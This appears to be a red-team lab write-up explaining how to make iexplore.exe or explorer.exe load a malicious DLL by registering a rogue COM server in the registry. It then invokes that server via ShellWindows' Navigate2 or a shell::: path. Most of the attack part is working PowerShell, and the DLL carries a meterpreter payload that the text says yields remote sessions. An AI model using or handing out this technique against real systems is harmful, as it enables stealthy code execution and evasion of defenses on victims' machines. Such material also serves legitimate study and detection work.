



# Forcing Iexplore.exe to Load a Malicious DLL via COM Abuse

It's possible to force iexplore.exe \(or explorer.exe\) to load a malicious DLL and execute it - a technique which could be used when attempting to evade certain defenses.

The technique works as follows:

* An attacker creates a malicious DLL that he wants iexplore.exe to load and execute - I used a meterpreter payload in this lab
* On a victim system, the attacker defines a new COM server by creating the required keys and values in the registry. The previously created malicious DLL will be set to handle the COM client calls. In our case, the DLL will only perform one action - it will execute the meterpreter shellcode upon load
* On a vitim system, the attacker uses an existing `ShellWindows` \(iexplore or explorer\) COM server `9BA05972-F6A8-11CF-A442-00A0C90A8F39`to call our malicious COM server by simply navigating to it
* Iexplore.exe loads the malicious DLL
* Attacker catches the meterpreter shell

This technique _requires_ iexplore.exe to be running on the target system :\)

See [https://labs.nettitude.com/blog/com-and-the-powerthief/](https://labs.nettitude.com/blog/com-and-the-powerthief/) by Rob Maslen for more details on why this technique works.

## Execution

Below is a powershell code that creates a new COM object with a randomly chosen CLSID `55555555-5555-5555-5555-555555555555` which registers our malicious DLL at `\\VBOXSVR\Experiments\evilm64.dll` to handle incoming calls from COM clients:


```csharp
# Code borrowed from https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1 by Rob Maslen
$CLSID = "55555555-5555-5555-5555-555555555555"
Remove-Item -Recurse -Force -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" -ErrorAction SilentlyContinue

# path to the malicious DLL we want iexplore to load and execute
$payload = "\\VBOXSVR\Experiments\evilm64.dll"
New-Item -Path "HKCU:\Software\Classes\CLSID" -ErrorAction SilentlyContinue | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" | Out-Null
New-Item -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "ThreadingModel" -Value "Apartment" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "LoadWithoutCOM" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "HideOnDesktop" -Value "" | Out-Null
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\ShellFolder" -Name "Attributes" -Value 0xf090013d -PropertyType DWORD | Out-Null
```


Once run, we can see that the new COM object got created successfully in the registry:



We are now ready to execute the payload with the below powershell. What happens here is:

* We're requesting a new instance of the `ShellWindows` `(9BA05972-F6A8-11CF-A442-00A0C90A8F39)` COM object, which actually applies to both explorer.exe and iexplore.exe, meaning with a handle to that object, we can interface with them using their exposed methods
* Specifically, we are interested in getting an instance of a COM object for iexplore.exe, because its COM server has a method `Navigate2(...)` exposed. The `Navigate2` allows us to programatically instruct the iexplore.exe to navigate to a URL. 
* We are asking iexplore to navigate to our newly created malicious CLSID pointing to our DLL instead of a URL:


```csharp
# force iexplore to load the malicious DLL and execute it
$shellWinGuid = [System.Guid]::Parse("{9BA05972-F6A8-11CF-A442-00A0C90A8F39}")
$typeShwin = [System.Type]::GetTypeFromCLSID($shellWinGuid)
$shwin = [System.Activator]::CreateInstance($typeShwin) | ? {$_.fullname -match 'iexplore'} | Select-Object -First 1
$shWin.Navigate2("shell:::{$CLSID}", 2048)
```


Code execution in action, resulting in a meterpreter session:



## Shell:::

As a fun bonus, it's possible to call our malicious COM object via explorer by navigating to  
`shell:::{55555555-5555-5555-5555-555555555555}` which forces the explorer.exe to load our malicious DLL:


...and results in a meterpreter shell:



## References



{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752094\(v%3Dvs.85\)" %}




